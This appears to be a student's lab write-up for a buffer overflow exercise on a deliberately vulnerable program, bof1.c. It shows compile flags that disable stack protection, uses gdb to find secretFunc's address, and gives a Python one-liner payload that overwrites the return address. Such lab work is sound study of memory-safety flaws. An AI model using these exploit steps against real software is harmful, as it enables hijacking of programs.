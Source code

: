 # LAB 01
# Name: Lưu Quang Hiếu _ ID: 22110024
*Conduct buffer overflow attack on bof1.c, bof2.c, bof3.c programs.*
## Bof1
- **Step 1**: Build the image "img4lab" for lab

![image](https://github.com/user-attachments/assets/f765a575-3451-462b-991a-92acd36afd5f)


And execute the buffer overflow

![image](https://github.com/user-attachments/assets/336d412a-c59e-4c20-873e-eeb52c39e7f9)

**The Stack Frame for this Lab**


![image](https://github.com/user-attachments/assets/8dacb82b-c728-4620-842f-f38fa5712fcf)

- **Step 2**: Build the program with `gcc -g bof1.c -o bof1.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

![image](https://github.com/user-attachments/assets/741bfac1-89e1-46a8-8a01-bf3fc671619b)

`-fno-stack-protector` : Use for  Turn off the compiler's stack smashing check option.  
`-mpreferred-stack-boundary=2` : Use for Set boundary euqal 2 to make gdb look more clear.  

- **Step 3:** Run `./bof1.out`  
![image](https://github.com/user-attachments/assets/c10ae9fa-8075-43c2-8c61-45ba6bdf1ebe)
- Run gdb to find the address of secretFunc()

  ![image](https://github.com/user-attachments/assets/c10e18f2-4025-44ea-83be-6a87ee5a4c69)

  
And now we can see the address of secretFunc at the the first line `0x0804846b`

- **Step 4:** Filling full buffer with random char and insert the function address with `(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1`
  
 ![image](https://github.com/user-attachments/assets/cbf27ecb-23d3-4ec7-bb4f-763870bb38a5)    

 We can see that I filled buffer with 204 char a (I choose 204 because to fill the buffer we need 200 byte and more 4 byte to fill the ebp) and insert address with little-endian type /x6b/x84/x04/x08 And I successful with the line Congratulation!
 
